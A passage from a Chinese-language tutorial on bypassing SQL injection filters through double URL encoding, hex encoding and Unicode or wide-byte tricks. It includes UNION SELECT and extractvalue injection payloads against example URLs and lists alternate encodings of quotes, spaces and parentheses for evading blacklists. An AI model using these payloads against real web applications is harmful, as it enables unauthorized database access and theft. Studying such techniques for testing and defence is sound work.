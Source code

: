 #### 1.URL编码

在Chrome中输入一个链接非保留字的字符浏览器会对其URL编码如空格变为%20、单引号%27、左括号%28、右括号%29

普通的URL编码可能无法实现绕过不过存在某种情况URL编码只进行了一次解码过滤可以用两次编码绕过

```
page.php?id=1%252f%252a*/UNION%252f%252a/SELECT 

```

#### 2.十六进制编码

```
z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))

```

示例代码中前者是对单个字符十六进制编码后者则是对整个字符串编码对整个字符串编码相对来说较少见一点

#### 3.Unicode编码

Unicode有所谓的标准编码和非标准编码假设我们用的utf-8为标准编码那么西欧语系所使用的就是非标准编码了

看一下常用的几个符号的一些Unicode编码

```
单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9

```

举例：

```
?id=10%D6'%20AND%201=2%23　　

SELECT 'Ä'='A'; #1

```

两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\'，那么就变成了%D6%5C'，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用。

第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过。

另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下。

常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的例子。

### d) 使用注释

看一下常见的用于注释的符号有哪些

